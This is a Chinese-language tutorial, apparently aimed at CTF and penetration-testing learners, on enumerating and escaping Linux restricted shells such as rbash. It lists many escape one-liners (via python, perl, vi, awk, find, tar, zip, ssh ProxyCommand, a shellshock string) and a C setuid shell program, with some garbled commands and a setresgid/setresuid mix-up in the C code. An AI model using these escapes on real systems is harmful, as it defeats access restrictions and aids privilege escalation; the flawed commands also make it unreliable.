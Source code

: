 ## 简介

> 受限制的Shell是出于安全考虑而创建的，主要用于限制用户对系统的访问权限和阻止/限制某些命令(如cd、ls、echo）。它通常在特定环境中使用，比如共享服务器、网络环境或受限的用户帐户。受限制的Shell可以阻止带有斜杠或输出重定向符号(如>、>>）的命令。常见的受限制的Shell类型有rbash、rksh和rsh。

但是，为什么有人会创建一个受限制的Shell呢？

1. 提高安全性
2. 阻止黑客/渗透测试人员
3. 有时系统管理员会创建一个受限制的Shell来保护自己免受危险命令的影响
4. 用于CTF挑战(Root-me/hackthebox/vulnhub）

## 枚举Linux环境

 枚举是最重要的部分。我们需要枚举Linux环境，以确定如何绕过rbash。我们需要进行以下枚举：

1. 检查可用的命令：执行cd、ls、echo等常见命令，确认它们是否可用。在受限制的Shell中，可能会有一些命令被限制或禁用。
   - 检查cd命令：`cd ~`，将当前目录切换到用户的主目录。
   - 检查ls命令：`ls`，列出当前目录中的文件和文件夹。
   - 检查echo命令：`echo "Hello, World!"`，输出字符串"Hello, World!"。
2. 检查操作符：了解可用的操作符，如>、>>、<、|等。某些受限制的Shell可能会限制或禁用特定的操作符。
   - 检查>操作符：`echo "Text" > file.txt`，将字符串"Text"写入到file.txt文件中。
   - 检查>>操作符：`echo "More text" >> file.txt`，将字符串"More text"追加写入到file.txt文件中。
   - 检查<操作符：`cat < file.txt`，从file.txt文件中读取内容并输出。
   - 检查|操作符：`ls | grep "txt"`，将ls命令的输出通过管道传递给grep命令，过滤包含"txt"的行。
3. 检查可用的编程语言：探索可用的编程语言，如perl、ruby、python等。这些语言常常提供了强大的功能，可以用于绕过受限制的Shell。
   - 检查Perl语言：`perl -e 'print "Hello, Perl!\n"'`，执行Perl代码并输出字符串"Hello, Perl!"。
   - 检查Ruby语言：`ruby -e 'puts "Hello, Ruby!"'`，执行Ruby代码并输出字符串"Hello, Ruby!"。
   - 检查Python语言：`python -c 'print("Hello, Python!")'`，执行Python代码并输出字符串"Hello, Python!"。
4. 查看sudo权限：使用sudo -l命令检查当前用户是否具有以root身份运行某些命令的权限。这可能提供了以root权限执行某些命令的机会。
   - 检查当前用户的sudo权限：`sudo -l`，显示当前用户可以以root身份运行的命令列表。
5. 检查SUID权限的文件或命令：查找具有SUID权限的文件或命令，这些文件可以以文件所有者的权限而不是当前用户的权限来执行。
   - 检查SUID权限的文件：`find / -perm /4000`，查找系统中具有SUID权限的文件，并列出它们的路径。

6. 检查当前所使用的Shell：执行echo $SHELL命令，确认当前所使用的Shell是否为受限制的Shell，如rbash。这将有助于了解当前的环境限制。
   - 检查当前Shell：`echo $0`，显示当前使用的Shell。
   - 检查当前Shell：`echo $SHELL`，显示当前使用的Shell。

8. 检查环境变量：运行env或printenv命令，查看当前的环境变量设置。这可以提供关于系统配置和可能的漏洞的信息。
   - 查看所有环境变量：`env`或`printenv`，显示当前的环境变量设置。

## 常见的攻击技术 

现在让我们看一些常见的攻击技术。

1. `echo os.system('/bin/bash')`
2. `python -c 'import pty;pty.spawn("/bin/sh")'`
3. `/bin/sh -i`
4. `perl —e 'exec "/bin/sh";'`
5. `perl: exec "/bin/sh";`
6. `ruby: exec "/bin/sh"`
7. `lua: os.execute('/bin/sh')`
8. IRB:`exec "/bin/sh"`
9. vi:
   1. `:!bash`
   2. `:set shell =/bin/bash:shell`

10. `awk 'BEGIN {system("/bin/sh or /bin/bash")}'`
11. `find / -name test -exec /bin/sh or /bin/bash \;`
12. ssh:
    `ssh username@IP – t "/bin/sh" or "/bin/bash"`
    `ssh username@IP -t "bash –noprofile"`
    `ssh username@IP -t "() { :; }; /bin/bash" (shellshock)`
    `ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)`
13. 如果允许使用"/"，可以运行`/bin/sh`或`/bin/bash`。
14. 如果可以运行cp命令，可以将`/bin/sh`或`/bin/bash`复制到您的目录中。
15. 从ftp > `!/bin/sh or !/bin/bash `
16. 从gdb > `!/bin/sh or !/bin/bash `
17. 从more/man/less > `!/bin/sh or !/bin/bash `
18. 从vim > `!/bin/sh or !/bin/bash `
19. 从rvim > `python import os; os.system("/bin/bash") `
20. 从scp > `scp -S /path/yourscript x y:`
21. 从awk > `awk 'BEGIN {system("/bin/sh or /bin/bash")}'`
22. 从find > `find / -name test -exec /bin/sh or /bin/bash ;`
23. git帮助状态下通过`!/bin/bash`进入交互式shell
24. `pico -s "/bin/bash"`进入编辑器写入`/bin/bash`然后按ctrl + T键
25. `zip /tmp/test.zip /tmp/test -T –unzip-command="sh -c /bin/bash"`
26. `tar cf /dev/null testfile –checkpoint=1 –`
27. `checkpointaction=exec=/bin/bash`

## 编程语言技术

 现在，让我们看一些编程语言技术。 

1. 从expect > `except spawn sh then sh`。 
2.  从python > `python -c 'import os; os.system("/bin/sh")' `
3. 从php > `php -a then exec("sh -i"); `
4. 从perl > `perl -e 'exec "/bin/sh";' `
5. 从lua > `os.execute('/bin/sh')` 
6. 从ruby > `exec "/bin/sh" `

## 高级技术 

现在让我们进入一些比较高级且不那么正当的技术。 

1. 从ssh > `ssh username@IP -t "/bin/sh"或"/bin/bash" `

2. 从ssh2 > `ssh username@IP -t "bash --noprofile" 3）`

3. 从ssh3 > `ssh username@IP -t "() { :; }; /bin/bash"(shellshock)`

4. 从ssh4 > `ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 27.0.0.1(SUID)`

5. 从git > git help status > 然后可以执行`! /bin/bash`

6.  从pico > `pico -s "/bin/bash"`，然后您可以写入`/bin/bash`，然后按下`CTRL + T`

7. 从zip > `zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash" `

8. 从tar > `tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash` 

9. C SETUID SHELL:

   ```c
   #include <stdlib.h>   // 包含标准库头文件，提供通用工具函数
   #include <unistd.h>   // 包含POSIX操作系统API的头文件，例如提权函数
   #include <stdio.h>    // 包含输入输出函数的头文件
   
   int main(int argc, char **argv, char **envp) {
       setresgid(getegid(), getegid(), getegid());   // 设置真实组ID、有效组ID和保存组ID都为当前进程的组ID
       setresgid(geteuid(), geteuid(), geteuid());   // 设置真实用户ID、有效用户ID和保存用户ID都为当前进程的用户ID
       
       execve("/bin/sh", argv, envp);   // 使用execve函数执行/bin/sh，启动一个新的shell进程
       return 0;   // 返回0表示程序执行成功
   }
   ```

## 文献

  - [受限Shell挑战](https://www.root-me.org/zh/%E6%8C%91%E6%88%98/%E5%BA%94%E7%94%A8%E7%A8%8B%E5%BA%8F-%E8%84%9A%E6%9C%AC/Bash-Restricted-shells)
  - [linux-restricted-shell-bypass-guide](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
  - [Shell-逃逸Linux各种Shell来执行命令](https://www.lshack.cn/653/)
  - [Multiple Methods to Bypass Restricted Shell](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/)